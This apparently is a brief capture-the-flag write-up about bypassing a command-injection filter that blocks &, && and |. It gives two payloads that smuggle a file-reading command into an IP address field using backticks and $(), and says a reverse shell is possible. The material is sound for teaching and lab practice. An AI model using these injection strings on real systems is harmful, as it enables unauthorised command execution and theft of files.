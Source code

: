 Will filter out &, &&, |, and various others.

One solution is to use payload:

127.0.0.1 `cat flag.txt`

127.0.0.1 $(cat flag.txt)

There are probably lots of others.

If someone wants to get fancy they can probably make a reverse shell work. 

